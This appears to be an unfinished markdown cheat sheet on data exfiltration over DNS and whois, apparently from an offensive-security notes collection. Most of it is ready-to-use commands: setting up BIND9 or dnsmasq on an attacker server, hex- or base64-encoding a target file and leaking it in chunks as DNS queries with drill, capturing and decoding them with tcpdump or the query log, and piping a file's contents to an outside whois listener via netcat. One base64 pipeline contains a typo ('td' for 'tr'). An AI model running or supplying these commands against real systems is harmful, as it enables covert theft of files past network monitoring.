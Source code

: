 # DNS

## 01 - Unix Shell

### 1.1 - Hex Encoded DNS Exfiltration

TODO: Provide a step process for exfiltrating DNS server on the attacker machine

#### 1.1.1 - Server Setup

##### 1.1.1.1 - BIND9

```
$ sudo apt install bind9
```

##### 1.1.1.2 - Dnsmasq

```
$ sudo apt install dnsmasq
```

#### 1.1.1 - Workstation Setup

- Install for Debian-based distros

```
$ sudo apt install ldnsutils dnsutils
```

- Install for Arch-based distros

```
$ sudo pacman -S bind
```

#### 1.1.2 - Usage

- On the target workstation

```
$ xxd -p file.txt > file.hex

$ while read line; do drill $line.<nameserver_dns_server>; done < file.hex

$ grep -Eo [0-9a-f]*.<nameserver_dns_server_IP> /var/lib/bind/query.log | cut -d "." -f 1 | uniq > file.hex

$ xxd -r -p file.hex > file.txt
```

### 1.2 - Base64 Encoded DNS Exfiltration

#### 1.2.1 - TCPDump

##### 1.2.1.1 - Target Workstation

```
$ base64 file.txt | td -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed 's/$/<domain.com>/'
```

##### 1.2.1.2 - Attacker Server

- Monitor port 53

```
$ sudo tcpdump -i <interface> udp port 53
```

- Decode results

```
$ echo "<base64_encoded>" | cut -d "." -f1-8 | tr -d "." | base64 -d
```

### 1.3 - Whois

```
$ whois -h <IP> -p 43 `cat /path/to/file.txt`

$ sudo nc -lnvp 43
```

## References

- [NotSoSecure: Out of Band Exploitation (OOB) CheatSheet](https://notsosecure.com/out-band-exploitation-oob-cheatsheet)

- [DNS exfiltration of data: step-by-step simple guide](https://hinty.io/devforth/dns-exfiltration-of-data-step-by-step-simple-guide/)

- [Setting Up Your Own Malicious DNS Server For Data Exfiltration (Without a DNS Server)](https://john-woodman.com/research/dns-exfiltration-setup/)

- [Deploy Self hosted interactsh-server for Blind & Out of Band Testing](https://takshilp.medium.com/oob-blind-testing-using-dns-exfiltration-54bcc004a0fb)